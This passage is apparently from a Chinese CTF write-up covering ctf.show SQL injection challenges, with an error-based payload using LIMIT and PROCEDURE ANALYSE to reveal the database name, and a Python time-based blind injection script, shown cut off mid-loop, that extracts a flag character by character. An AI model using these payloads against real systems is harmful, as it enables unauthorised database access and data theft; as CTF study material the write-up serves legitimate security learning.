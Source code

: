 ```sql
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name' export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```
得知limit后面只能跟两个函数，PROCEDURE 和 INTO，INTO除非有写入shell的权限，否则是无法利用的。所以就剩一个procedure是可用的，同时Mysql中默认可用的存储过程只有analyse，然后就是使用报错注入爆出数据库
payload：?page=1&limit=1 procedure analyse(extractvalue(rand(),concat(0x3a,database())),1)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639911137139-175384dd-5bf8-4a35-8d88-adb6f9aa4565.png)
最后提交数据库名即可

## web222（时间盲注）
```python
'''
Author: KonDream
Date: 2021-12-19 19:00:03
LastEditors:  KonDream
LastEditTime: 2021-12-19 19:25:04
Description:  
'''
import requests

url = "http://c34cda53-3c9f-45af-af99-1c8aa15a98ad.challenge.ctf.show/api/"

# 爆数据库名 ctfshow_flaga,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagaabc,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flaga'"
# 爆字段
payload = "select flagaabc from ctfshow_flaga"

flag = 'ctfshow{' 

for i in range(9, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        # time.sleep(1
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        params = {
            'u' : "if(ascii(substr(({}), {}, 1)) > {}, sleep(0.05), 2)".format(payload, i, mid),
            'page' : 1,
            'limit' : 1
        }
        r = requests.get(url=url, params=params)
        r = r.elapsed.total_seconds() # 获取页面响应时间
```
